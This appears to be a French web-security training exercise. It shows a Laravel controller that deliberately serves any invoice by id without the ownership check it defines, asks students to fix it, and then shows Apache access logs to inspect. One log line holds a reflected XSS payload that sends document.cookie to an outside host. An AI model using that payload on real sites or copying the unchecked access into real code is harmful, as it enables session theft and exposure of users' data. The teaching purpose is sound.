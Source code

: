 ```bash
tests/
```

```php
<?php
// Routeur de l'application

Route::get('/', 'HomeController@index');
Route::get('/search', 'HomeController@index');
Route::get('/facture', 'FactureController@index');
Route::get('/admin', 'AdminController@index');
// …
Route::get('/admin/users', 'UserController@index');
```

Quels sont les fichiers à analyser pour trouver la faille de sécurité ?

```php
<?php
// FactureController.php
class FactureController extends Controller
{
    public function index(Request $request)
    {
        $id = $request->input('id');
        $facture = Facture::find($id);
        if ($facture) {
            return view('facture', ['facture' => $facture]);
        }
        return abort(404);
    }

    private function checkIfUserCanAccessFacture($facture)
    {
        return $facture->user_id === Auth::id() 
    }

    private function throttleUserAccess(){
        return RateLimiter::for('facture')->hit(Auth::id());
    }
}
```

Modifier l'accès aux factures en utilisant les fonctions à votre disposition afin de corriger le problème de sécurité identifié.

## Faille 0

Observer les logs d'accès à votre application :

```
127.0.0.1 - frank [10/Oct/2024:13:55:36 -0700] "GET /apache_pb.gif HTTP/1.0" 200 2326
127.0.0.1 - frank [10/Oct/2024:13:55:36 -0700] "GET /favicon.ico HTTP/1.0" 404 209
192.168.1.1 - - [10/Oct/2024:13:55:36 -0700] "GET /index.html HTTP/1.0" 200 2761
192.168.1.4 - - [10/Oct/2024:13:55:36 -0700] "GET /search.php?query=<script>document.location='http://192.168.1.4.com/?c='+document.cookie</script> HTTP/1.0" 200 512
192.168.1.2 - - [10/Oct/2024:13:55:36 -0700] "POST /form.php HTTP/1.0" 200 183
192.168.1.3 - - [10/Oct/2024:13:55:36 -0700] "GET /secret.html HTTP/1.0" 403 289
```
